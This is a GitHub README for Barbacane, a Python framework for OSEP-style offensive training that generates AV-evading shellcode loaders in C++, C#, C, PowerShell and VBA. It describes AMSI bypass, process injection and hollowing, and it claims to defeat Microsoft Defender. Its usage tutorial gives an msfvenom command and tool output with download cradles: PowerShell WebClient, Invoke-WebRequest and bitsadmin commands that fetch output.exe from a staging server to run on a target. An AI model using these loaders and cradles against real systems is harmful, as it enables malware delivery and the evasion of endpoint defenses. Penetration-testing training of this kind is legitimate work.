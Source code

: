 
```
   ___            _                                
  / __\ __ _ _ __| |__   __ _  ___ __ _ _ __   ___ 
 /__\/// _` | '__| '_ \ / _` |/ __/ _` | '_ \ / _ \
/ \/  \ (_| | |  | |_) | (_| | (_| (_| | | | |  __/
\_____/\__,_|_|  |_.__/ \__,_|\___\__,_|_| |_|\___|
VBA/Powershell/C/++/# Shellcode loader framework +
```
![Python](https://img.shields.io/badge/python-3.11-blue.svg)
![Version](https://img.shields.io/badge/release-1.0-yellow.svg)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](https://opensource.org/licenses/MIT)

A barbican (barbacane [old french], bashoura [arabic]) is a fortified gateway situated over a gate or bridge, which was used for defensive purposes. An ominous doorway to a world of dreams and occult myths.

## [+] Overview

Barbacane is a **framework in Python3** designed to create different types of **shellcode loaders in Powershell, C++, C#, C and VBA from a command-line interface (CLI)** as you go. Most of the generated shellcode loaders are Windows-oriented, but one of them is dedicated to Linux machines.

In addition, Barbacane can run a web server on demand to act as a staging server. Every loader comes with **basic anti-virus bypasses** designed to reliably defeat low-grade anti-virus appliances (AV).

### Philosophy

When starting my OSEP journey, I realized that automating the shellcode loader generation process was mandatory to succeed during the exam. In my mind, the process of manually creating a new code from a second-hand template was far too random and caused mistakes that I didn't want to track during the exam. Barbacane came from this intuition. 

Knowing this background, keep in mind the **following key-facts** before using this framework:
- Barbacane has been organically designed following my researchs and OSEP lessons. Consequently, the **code suffers from a lack of design, flow control, error mangament and optimization**, as well as it could be more Pythonish. Eventually, you will find **some missing features**. Nonetheless, as far as I'm concerned, Barbacane works and provides some valued reliabilty during my journey through the OSEP labs. 
- Every template **contains basic AV bypasses effective against low to intermediate-level anti-virus**. Every template succeeded to bypass a mid-2023 Microsoft Defender. If you want to be stealthier, more research should be performed to improve the payloads. Have fun.
- Barbacane **doesn't compile payloads on demand**. When starting the project, I quickly realized that dealing with this issue would be to hard to overcome. Instead, I recommand to use Barbacane closely with a virtual machine (VM) on Windows and a shared folder. The setup of the VM is your responsability, but it should not take much effort to run properly a Windows with csc.exe and cl.exe installed.
### Features

As a framework, Barbacane offers the following generation capabilities:

- **Shellcode loader in C++** crafted as a PE (.exe) or as a shared library (.dll) for x64 architecture, including:
	- static obfuscation based on XOR encryption
	- behavior analysis bypass, including IAT obfuscation, and prime-number calculation
	- strings from the Edge binary are added to reduce the level of entropy
	
- **Shellcode runner in c crafted as an ELF file for x64 linux systems**  including:
	- static obfuscation based on a XOR encryption
	
- **Shellcode loader in C#** crafted in PE (.exe) or shared library (.dll), both for x64 architecture, including:
	- static obfuscation based on Caesar cypher encryption
	- behavior analysis bypass including sleep timers and non-emulated API detection
	- **on-demand process injection and hollowing capabilities**
	
- **Shellcode loader in Powershell** for x64 architecture, which includes two options of AMSI bypasses:
	- corruption of the context structure that is created by calling _AmsiInitialize_
	- manipulation of a result variable set by _AmsiInitialize_ (coming later)

- **Shellcode loader in VBA based on two different scenario:**
	- a classic shellcode loader fully made in VBA that includes two AV bypass techniques:
		- static obfuscation based on Caesar cypher encryption
		- behavior analysis bypass based on a sleep timer
	- a VBA runner based on WMI that executes a command on the targeted system, such as a powershell payload (why not the runner in Powershell we displayed earlier?). It includes static obfuscation based on masquerading the variables and Caesar cypher encrypting some keywords often flagged as malicious.

- On demand, a **Python3 web server may be initialized to be used as a staging server**. It includes preformatted living-off-the-land commands to download the craddle

## [+] Installation

### Setup:

From your client machine with Python3 up and running:

```bash
# after downloading the project and paste it in /opt (for instance)
cd /opt/barbacane
# Setting a virtualenv
sudo virtualenv barbacane-venv 
source barbacane-venv/bin/activate
# Installing required package
pip3 install colorama
```

## [+] Usage

>[!WARNING]
>If you want to generate a functional loader from Barbacane, **you must use a raw binary shellcode as payload**. No other format is recognized by the framework. You are warned.

First time you run Barbacane ? Fair enough. From the downloaded project, type the following command to learn how to use Barbacane:

`$ python3 barbacane.py --help`

Alternatively, you can follow this short tutorial demonstrating the generation of a simple C++ shellcode loader for Windows:

- **Step1:** generate a payload in raw binary:

`$ msfvenom --platform windows --arch x64  -p windows/x64/messagebox -f raw > /tmp/pld.bin`

- **Step2:** use Barbacane to create a shellcode loader source code

```bash
$ python3 barbacane.py -format C++ -host 192.168.56.1 -port 8080 -pld payload/pld.bin -name output --staging
   ___            _                                
  / __\ __ _ _ __| |__   __ _  ___ __ _ _ __   ___ 
 /__\/// _` | '__| '_ \ / _` |/ __/ _` | '_ \ / _ \ 
/ \/  \ (_| | |  | |_) | (_| | (_| (_| | | | |  __/
\_____/\__,_|_|  |_.__/ \__,_|\___\__,_|_| |_|\___|
+ VBA/Powershell/C/++/# Shellcode loader framework +

+ -- [ Every grave robber gains +30 dodge ] -- +
[*] WARNING: you are using a test payload used for debugging purpose
[*] Creating a c++ Windows shellcode runner (IAT obfuscation, prime-number bypass, adding strings to reduce level of entropy)
[+] Custom c++ template for PE generated
[+] Payload found at payload/pld.bin
[+] Payload XOR encrypted
[+] Payload nested
[+] The template is available at output/output.cpp
[+] >>> Compile on Windows VM using x64VS cli: cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcoutput/output.cpp /link /OUT:output/output.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
[+] Exec on target:
 >>> powershell -ep bypass -nop -c (New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8080/output.exe', 'output.exe')
 >>> powershell -ep bypass -nop -c Invoke-WebRequest -Uri http://192.168.56.1:8080/output.exe -OutFile output.exe
 >>> bitsadmin /transfer pwn /download http://192.168.56.1:8080/output.exe output.exe
[*] HTTP server serving at: http:// 192.168.56.1 8080
```

- **Step3:** compile on a dedicated VM using the command submitted by Barbacane and a shared folder where the root folder is ``barbacane/``:

![Pasted image 20240329221651](https://github.com/hex-a-dec/barbacane/assets/152536937/b839e8ff-c753-447d-bd4d-2a1f209feca1)

- **Step4:** download the payload the way you like, execute it and enjoy the view of profit:

![Pasted image 20240330090300](https://github.com/hex-a-dec/barbacane/assets/152536937/d4a3558b-9bc3-49a3-a884-012c45a265da)

Other examples you might want to know:

- generate a shellcode loader as a DLL for a Windows x64:
`$ python3 barbacane.py -format C++ -name mypayload --dll`

- generate a shellcode injector in c# for Windows x64 and specify the process to tamper:
`$ python3 barbacane.py -format C# -name payload --inject -pid explorer -mode inject`

- generate a shellcode loader in Powershell for Windows x64 and run a staging server on port 8080
`$ python3 barbacane.py -format Powershell -name payload --staging -host 192.168.56.1 -port 8080`

>[!CAUTION]
>All templates used by the framework are available in the ``/templates`` folder. The generated payloads are availlable in the ``/output`` folder

## [+] Credits

A special thanks goes to:
- [vanmieghem.io - A blueprint for evading industry leading endpoint protection in 2022](https://vanmieghem.io/blueprint-for-evading-edr-in-2022/), still a masterclass in 2023. I learnt so much reading this blog article
- [Sektor7 - RED TEAM Operator: Malware Development Essentials Course](https://institute.sektor7.net/red-team-operator-malware-development-essentials), a great but not-free resource to jump into the development of shellcode.
- [Offsec - OSEP course](https://www.offsec.com/courses/pen-300/), well Barbacane is all about this course, right ?
- I must admit ChatGPT3.5 extensively helped me to write some cryptographic functions in Python. Thank you CG ;)
